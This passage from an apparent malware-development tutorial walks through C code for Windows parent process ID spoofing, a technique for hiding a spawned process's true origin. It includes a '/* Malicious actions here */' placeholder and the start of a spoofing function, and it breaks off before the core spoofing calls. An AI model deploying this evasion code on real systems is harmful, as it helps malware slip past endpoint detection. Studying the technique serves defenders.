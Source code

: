 ```c

/* Malicious actions here */

	printf("[#] Press <Enter> To Quit ... ");
	getchar();
	CloseHandle(hProcess);
	CloseHandle(hThread);

	return 0;
}
```

Now we will create a function that performs all the steps mentioned before. 

This function gets as input the handle of the parent process and the new process name and returns the PID of the new process, a handle of the new process and the handle of the main thread of that process.   

```c
BOOL PPIDSpoofing(IN HANDLE hParentProcess, IN LPCSTR lpProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
```

Next, we will define needed variables and set the memory to zero to ensure that everything is defined as expected: 

```c
	CHAR                               lpPath[MAX_PATH * 2];
	CHAR                               WnDr[MAX_PATH];

	SIZE_T                             sThreadAttList = NULL;
	PPROC_THREAD_ATTRIBUTE_LIST        pThreadAttList = NULL;

	STARTUPINFOEXA                     SiEx = { 0 };
	PROCESS_INFORMATION                Pi = { 0 };

	RtlSecureZeroMemory(&SiEx, sizeof(STARTUPINFOEXA));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
```

Now, as explained in Step 1, we will set the `cb` to the size of the structure. We also get the WinDir environmental variable to concatenate with the process name in order to create the full path of the new process. 

```c
	// Setting the size of the structure
	SiEx.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
		printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
```
